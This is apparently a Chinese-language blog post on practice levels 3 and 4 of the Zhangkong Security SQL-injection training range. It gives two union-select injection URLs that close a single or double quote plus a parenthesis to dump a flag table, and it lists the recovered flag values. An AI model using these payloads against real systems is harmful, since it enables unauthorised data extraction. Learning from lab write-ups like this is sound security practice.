 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
keywords: SQL 注入
---
```


# 掌控安全 SQL 注入靶场练习 - 引号括号错误注入

根据之前的经验，已经猜测出过关 Flag 的值了。

接下来两关是  **引号** 与 **括号** 的组合。


## 0x01 括号单引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 单引号 和 括号
http://injectx1.lab.aqlab.cn:81/Pass-03/index.php?id=1') and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

## 0x02 括号双引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 双引号 和 括号
http://injectx1.lab.aqlab.cn:81/Pass-04/index.php?id=1") and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```